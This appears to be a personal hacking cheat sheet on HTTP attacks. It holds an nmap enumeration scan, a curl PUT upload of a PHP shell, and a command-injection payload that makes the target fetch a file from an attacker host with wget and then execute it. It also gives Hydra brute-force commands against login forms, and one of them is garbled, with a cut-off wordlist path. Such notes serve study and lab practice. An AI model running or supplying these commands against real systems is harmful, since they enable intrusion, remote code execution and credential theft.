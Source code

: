 ```yaml
---
tags: 🔻 🔻/Enumeration
aliases: Hacking Notes
---
```


# HTTP Enumeration
#Enumeration 

#nmap script for full enumeration

*Quick  search for everything possible*
nmap -sV -n -Pn -vv -p 80 --script=http-vhosts,http-userdir-enum,http-apache-negotiation,http-backup-finder,http-config-backup,http-default-accounts,http-methods,http-method-tamper,http-passwd,http-robots.txt



# Command Injection
#commandinjection
  
File Traverse:  
website.com/file.php\[?path=/\]  
  
Test HTTP options using curl:  
curl -vX OPTIONS \[website\]  
  
Upload file using CURL to website with PUT option available  
curl --upload-file shell.php --url

[http://](http://192.168.218.139/test/shell.php)


  
Transfer file (Try temp directory if not writable)(wget -O tells it where to store):  
?path=/; wget

[http://IPADDRESS:8000/FILENAME.EXTENTION;](http://ipaddress:8000/FILENAME.EXTENTION;)

 
  
Activate shell file:  
; php -f filelocation.php;

# Hydra post form
#hydra

hydra -l admin -P "/usr/share/seclists/Passwords/darkweb2017-topx.x.x.x  
  
hydra -l "root@localhost" -P "pass.txt" -e nsr -s 80 -o "http\_form\_hydra.txt" *target ip*
